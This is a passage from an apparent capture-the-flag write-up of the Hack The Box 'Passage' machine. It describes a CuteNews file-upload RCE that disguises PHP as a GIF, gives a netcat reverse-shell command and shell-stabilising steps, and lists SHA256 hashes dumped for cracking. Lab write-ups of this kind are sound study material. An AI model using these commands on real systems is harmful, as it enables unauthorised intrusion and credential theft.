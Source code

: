 This part of the exploit sends a GET request to `/CuteNews/index.php?mod=main&opt=personal` and searches for `signature_dsi`, `signature_key`, `logged_user` in the response using `re` python module. The signatures are required for updating the profile in `CuteNews`.

The variable `payload` has a PHP payload which system commands with the value supplied in 'cmd' GET parameter but to upload this file, payload has `GIF8` and this bypasses the file uploading checks by adding GIF machine bytes and the arbitrary PHP file is uploaded by tricking the server into uploading a GIF file.

---

## Exploitation <a name="exploitation">
`python3 exploit.py`

![exploit.py](/home/deep/Documents/work/blogging/markdown/notes/assets/img/posts/passage-htb/cutenews-rce-exploit.png)

Running the exploit allows us to run system commands but to have an actual shell I used netcat listener and sent /bin/sh from the passage box.


```bash
# Host machine

nc -lvnp 9000


# Victim machine

nc 10.14.10.44 9000 -e /bin/sh
```

Stabilizing shell in netcat

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl^Z
fg
[Enter]x2
```

We now have a stable and interactive shell over the box.

---

## Privilege Escalation to Paul <a name="privesc-paul">

While running our CuteNews exploit, we got some SHA256 hashes as identified by `hashid`. We can crack those using tools like hashcat.


Hashes:

```
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
```

